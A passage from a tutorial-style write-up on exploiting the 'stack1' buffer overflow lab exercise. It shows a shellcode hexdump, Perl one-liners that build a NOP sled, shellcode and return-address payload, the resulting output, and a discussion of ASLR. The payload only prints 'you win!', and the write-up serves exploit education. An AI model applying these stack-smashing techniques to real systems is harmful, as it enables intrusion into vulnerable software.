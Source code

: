 ```bash
# hexdump -C shellcode.bin
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 09 cd  |..1.1.1.....Y...|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 0a                                 | win!.|
00000026
```

The shellcode above is copied into the `buf` array through the `gets`
function, which parses newline or EoF as input terminating characters.
Unfortunately, the shellcode we so carefully prepared contains a newline
as its last byte. This came in through the `you win!` message and it is
indeed the culprit here. The earlier exploit command-line breaks at the
`0x0a` byte on offset 87, failing to overwrite further stack locations.
The EIP at offset 88 is untouched and we fail to gain successful
exploitation.

We could quickly modify the `printf.s` program and generate a new
shellcode that has the message with no newline character. However, a
quick hack can be to remove the newline from the exploit command-line
and test it:

```bash
# perl -e 'print "\x90"x50 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x0a" . "\xd4\xf4\xff\xbf"' | ./stack1
buf: bffff4d4 cookie: bffff524
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xd4\xf4\xff\xbf"' | ./stack1
buf: bffff4d4 cookie: bffff524
you win!
```

It did work! Although a junk byte was appended to the winning message,
it really does not matter for this example. We are clear (hopefully :)
with the exploitation technique and it is all that matters. Notice
however that we used the address of `buf` to jump back to our shellcode
and it is one thing which makes our exploit highly unreliable. There are
certain techniques through which you can reliably jump to your shellcode
without using memory addresses that could possibly differ between
multiple systems. Please refer the [Exploit writing tutorial part 2 :
Stack Based Overflows - jumping to
shellcode](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/)
post from [corelanc0d3r](https://twitter.com/corelanc0d3r) for more details.

For this solution, we turned off another mitigation feature (`ASLR`).
Even in its presence we were able to gain successful exploitation (using
solutions #1 and #2) but that was because we had alternate tricks.
However, those were very specific to the vulnerable `stack1` program.
They won't always work, but you now understand that an insight about how
things really work, could help with designing custom solutions and
hacking around any limitations that stop you from gaining successful
exploitation. This solution helped us to get an insight into how useful
addressing information could be for an exploit writer and how the `ASLR`
technique helps to mitigate exploit attempts that use such information.
